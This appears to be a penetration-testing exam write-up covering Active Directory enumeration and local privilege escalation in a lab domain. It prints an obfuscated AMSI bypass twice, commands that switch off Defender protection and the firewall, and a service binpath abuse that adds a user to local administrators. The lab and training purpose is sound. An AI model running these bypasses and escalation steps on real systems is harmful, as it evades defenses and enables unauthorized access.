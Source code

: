 ## Enumeration StudentVM
**Domain Enumeration:**
I started the exam from the student VM machine which is lower privileged account on the current domain:
I have opened the powershell but not able to bypass the defender and not able to turn off the firewall. I 
have done an AMSI bypass and started with the enumeration further on the foothold Machine.
```
AMSI BYPASS:
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; (
Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}"
-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( (
"{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' 
))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
For the initial enumeration of the foothold machine the first I use Powerup.ps1 is a PowerShell script that 
can be used to check and enhance the security of a system running PowerShell also Powerup.ps1 also 
provides additional features, such as checks for possible privilege escalation and attempts to elevate the 
current user's privileges by trying various known techniques.
```
. .\PowerUp.ps1
```
I will perform a series of checks to identify potential security issues
```
Invoke-AllChecks
```
I perform potential security issues, there is any AbuseFunction.
```
Invoke-ServiceAbuse –Name ‘vds’ –Username tech\studentuser
```
Set-MpPreference is a cmdlet (command-let) in PowerShell that can be used to configure various 
preferences in the Microsoft Defender antivirus software. The -DisableIOAVProtection parameter is used 
to disable real-time protection against potentially malicious code injection and modification of certain 
system processes, also known as "IOAV protection, also -DisableIRealtimeMonitoring parameter is used 
to disable real-time protection against potentially malicious software and other threats."
```
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableIRealtimeMonitoring $true
```
For the initial enumeration of the foothold machine here I have used the powerview_dev.ps1 to get all 
the information about the domain and hosts.
```
. .\PowerView_dev.ps1
```
Enumerating users for the Domain Controller, also selecting specific property ‘cn’ from the full data of the 
users.
```
Get-NetUser | select cn
```
For enumerating the list of computers with the dnshostname in the current domain :
```
Get-NetComputer | Select cn
Get-NetComputer | Select dnshostname
```
For getting the information about the Domain Controller
```
Get-DomainController
```
For getting the Domain trusts information for the current domain.
```
Get-DomainTrust
```
Get full data of the forest domain and Domain Controllers in the current Domain.
```
Get-NetForestDomain
```
Checking the Domain groups for the current Domain Controller and specifically checking the group 
identity for the “Domain Admins”
Enumerating Domain groups and its members for the current DC
```
Get-DomainGroup –Identity "Domain Admins"
Get-DomainGroupMember –Identity "Domain Admins"
```
Enumerating the groups in the Domain Controller
```
Get-NetGroup
Get-NetGroup | select cn
```
**Enumerating ACLS:**
ACLs: It is the list of the access control entries.
To enumerate ACLs, we can use Get-ObjectACL and Get-DomainObjectACL from PowerView like below
```
Get-DomainObjectAcl –Identity “Domain Admins” –ResolveGUIDs -Verbose
```
Enumerate shares and sessions on Domain.
```
Get-NetShare
Get-NetSession
```
Enumerating all the GPO’s for the given Domain
```
Get-NetGPO
```
Enumerating Domain Policy which can help by revealing the information about password policy and 
Kerberos password policy
```
Get-DomainPolicy
```
## Privilege Escalation
So here I tried the PrivescCheck , which is a script for enumerating the privilege escalation in the windows. 
It tries to find misconfigurations that could allow local unprivileged users to escalate privileges to other 
users or to access local apps
I uploaded this in the foothold machine and run the commands:
Running the script using dot outsourcing.
```
. .\PrivescCheck.ps1
Invoke-PrivescCheck
```
Using the above script, I was able to find the abusable executable vds which were having the 
misconfigured permissions, their permission was set to AccessAll. Also the other attribute which was 
showing that machine which is studentvm can be restarted which was set to true.

By abusing the service permission I can add my studentuser to the local group administrator.
For escalating privileges using the executable service control, I can change the binary path to add the 
studentuser in the local administrator group.
```
sc.exe config vds binpath= "C:\WINDOWS\System32\cmd.exe /c net localgroup administrators 
studentuser /add"
sc.exe qc vds
```
I finally got the local admin access “system32” shell. And I was the local admin in the foothold machine.
As in the above image, it is clear that studentuser is added in the local administrator group.
Now, I started the new powershell window in which I choose “run as administrator” and disable the 
firewall, Defender and AMSI.
#### Bypasses:
**Powershell Execution policy bypass :**
```
powershell -ep bypass
```
**Antivirus Bypass:**
```
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -
DisableIOAVProtection $true
```
**Firewall Bypass:**
```
Netsh Advfirewall set allprofiles state off
```
**AMSI Bypass:**
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; (
Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}"
-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( (
"{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' 
))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
Now for the further enumeration in the Domain Controller, I tried for enumerating for the different 
hostnames so I choose to enumerate for the dbserver31 which was looking maybe sql server is running 
on this host and I was not able to access the server as I was not having Administrator access. So I kept it 
for later stages. 
In student VM I was trying to enumerate for the attack path and was searching for some hints for the 
next steps.I have to try the enumeration for the Constrained delegation in the current Domain 
controller.
Loaded the PowerView and run the command for the constrained delegation.
```
. .\PowerView_dev.ps1
Get-DomainComputer -TrustedToAuth
```
 
